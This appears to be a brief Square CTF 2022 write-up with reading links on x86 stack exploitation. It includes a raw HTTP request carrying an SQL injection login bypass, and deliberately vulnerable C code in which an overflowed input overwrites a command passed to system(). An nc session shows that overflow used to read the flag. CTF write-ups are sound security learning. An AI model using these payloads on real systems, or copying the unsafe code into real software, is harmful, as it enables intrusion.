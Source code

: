## EZ pwn 2

Required reading:
- intro to x86 https://www.cs.virginia.edu/~evans/cs216/guides/x86.html
- x86-64 stack layout https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64
- Stack Canaries https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/
- stack based buffer overflows https://en.wikipedia.org/wiki/Stack_buffer_overflow
- ASLR https://en.wikipedia.org/wiki/Address_space_layout_randomization
Optional Reading:
- pwntools https://docs.pwntools.com/en/stable/intro.html#making-connections











## its right there

Android, RE, 100










## Alex Hanlon Has The Flag!

Web, 50


POST / HTTP/1.1
Host: chals.2022.squarectf.com:4102
Content-Length: 62
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://chals.2022.squarectf.com:4102
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://chals.2022.squarectf.com:4102/
Accept-Encoding: gzip, deflate
Accept-Language: pl-PL,pl;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

username=alan&password=%25'+or+1=1+and+username+!=+'admin'--+-


## EZ pwn 1

pwn, 50

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>


int main()
{
    char command[16];
    char way_too_small_input_buf[8];
    strcpy(command, "ls");

    puts("Hi! would you like me to ls the current directory?");
    read(0, way_too_small_input_buf, 24);
    if (!strcmp(way_too_small_input_buf, "no\n")) {
        puts("Oh, ok :(");
        exit(0);
    }

    puts("Ok, here ya go!\n");
    system(command);

}
```

$ nc chals.2022.squarectf.com 4100
Hi! would you like me to ls the current directory?
aaaaaaaacat *the*/*.txt
Ok, here ya go!

flag{congrats_youve_exploited_a_memory_corruption_vulnerability}
